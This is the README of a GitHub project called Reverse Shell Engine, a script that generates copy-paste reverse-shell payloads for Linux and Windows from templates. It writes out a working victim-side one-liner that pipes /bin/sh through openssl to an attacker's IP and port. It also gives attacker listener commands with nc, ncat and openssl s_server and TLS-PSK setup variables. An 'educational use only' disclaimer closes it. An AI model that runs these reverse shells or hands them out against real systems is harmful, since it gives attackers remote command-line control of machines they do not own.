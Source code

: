 
# RSE - Reverse Shell Engine


- [What is RSE](#What-is-RSE?)
- [Installation](#Installation)
- [How it works](#How-it-works)
    - [Quickstart]()
    - [Reverse shell types and how they work]()
        - [linux-openssl-tcp-noenc]()
        - [windows-ps_powercat-tcp-noenc]()
    - [Encrypted shells]()
- [Some more information]()
- [Contribute]()

---
---


![RSE-screenshot-1](img/rse-screenshot-1.png)

![RSE-screenshot-1](img/rse-screenshot-2.png)


# What is RSE? 

RSE stands for: Reverse Shell Engine
This tool is just a compilation of many reverse shells found on the internet and some other contributions.

A reverse shell is a remote control technique where a target computer, after being compromised by an attacker's code, establishes a connection back to the attacker's machine. This allows the attacker to gain command-line access and control over the target system, often used in cyberattacks for remote exploitation or unauthorized access. Reverse shells are a method to bypass certain network restrictions, but their use should strictly adhere to ethical and legal guidelines.

This tool is just a quick help to handy copy and paste any revshell you need at any moment in seconds. 

# Installation

Just clone this repository and you're ready to go.

`git clone git@github.com:zpol/reverse-shell-engine.git`

and

`cd reverse-shell-engine`


# How it works

## Quickstart 

Just run: 

`./rse.sh` 

The application will start by promting a message asking for the IP/hostname and port where to listen to. 
Once the application has this data it will show you a selector where choose from different reverse shells for different languages and operating systems (note that you can search/filter by start typing). 

After that the application will craft that with the specified parameters and output the revershe shell and a base64 encoded version.

Use the payload generated to execute that in the target machine. You will need to previously have a listener in that IP and PORT you specified when creating the payload. In most cases a simple netcat will do the trick: `nc -l -p <port>`


## Reverse Shell types and how they work: 

In most cases `ncat` or `nc` will work but in some cases you will need to setup some stuff before being able to accept an incomming connection with some revshell types. 

So for the most cases you can just use on your listenning machine something like: 

`nc -l -p <port>`

When the client makes connection to your server you will be able to execute some commands on the other side.

### linux-openssl-tcp-noenc
```
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port <port>
```
or
```
user@attack$ ncat --ssl -vv -l -p <port>
user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ip>:<port> /tmp/s; rm /tmp/s
```
TLS-PSK (does not rely on PKI or self-signed certificates)
```
openssl rand -hex 48


# server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpsk"

# client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpsk"
```
### windows-ps_powercat-tcp-noenc

Consider launching a web server too with this reverse shell since it's needed for the payload to download powercat first.

## Encrypted shells: 

Comming soon

In this section soon you will be able to find advanced reverse shell types with encryption layers with AES and more features. Stay tuned! :) 

## Some more information

In the root of the repository you can find the following files: 

```
├── img                                     (some images)
├── README.md           
├── rsh.sh                                  (main program)
└── tpl                                     (templates dir)
    ├── index                               (template index)
    ├── linux-bash-tcp-noenc-0.tpl          (template)
    ├── linux-bash-tcp-noenc-1.tpl
    ├── linux-bash-tcp-noenc-2.tpl
    ├── linux-bash-udp-noenc-0.tpl
    ├── linux-perl-tcp-noenc-0.tpl
    ├── linux-perl-tcp-noenc-1.tpl
    ├── linux-python-tcp-noenc-0.tpl
    ├── linux-python-tcp-noenc-1.tpl
    ├── linux-python-tcp-noenc-2.tpl
    ├── linux-python-tcp-noenc-3.tpl
    ├── windows-perl-tcp-noenc-0.tpl
    ├── windows-powershell-tcp-noenc-0.tpl
    ├── windows-pyton-tcp-noenc-0.tpl
    └── windows-ruby-tcp-noenc-0.tpl

```

The index file is used to show all the options when selecting the reverse shell template. 
This file is automatically creaded every time the program is executed so if you create new payloads under the `tpl` folder there's no need to update the index since it's done automatically.

# Contribute

Thank you for considering contributing to this project! Here's how you can get started:

- Contact the author
- Feel free to report any issue, improvement or suggestion
- Fork the repository and create your branch from `main`.
- Clone the repository to your local machine.
- Make your changes and commit them with descriptive messages.
- Push your changes to your fork.
- Create a pull request (PR) to our `main` branch.
- Be patient! We'll review your PR and provide feedback.

Please make sure to follow our [code of conduct](CODE_OF_CONDUCT.md) and our [contribution guidelines](CONTRIBUTING.md). We appreciate your help!



 

 # ⚠️ DISCLAIMER 
## Educational Use Only

The use of this tool or software is intended solely for educational and learning purposes. 

It is not intended for any illegal, unethical, or malicious activities. By using this tool, you agree that:

You will use it exclusively for educational and non-malicious purposes. You will not engage in any illegal or harmful activities using this tool.You understand that the tool is provided as-is, without any warranties or guarantees of any kind.You accept full responsibility for any actions you undertake with this tool and any consequences that may arise.You release the creators, maintainers, and distributors of this tool from any legal liability or responsibility for its use.You will comply with all applicable laws and regulations while using this tool. Please be aware that misuse of this tool may have serious legal and ethical consequences. Always ensure that you have the appropriate permissions and consent before using it in any context.

By using this tool, you acknowledge and agree to the terms and conditions outlined above.
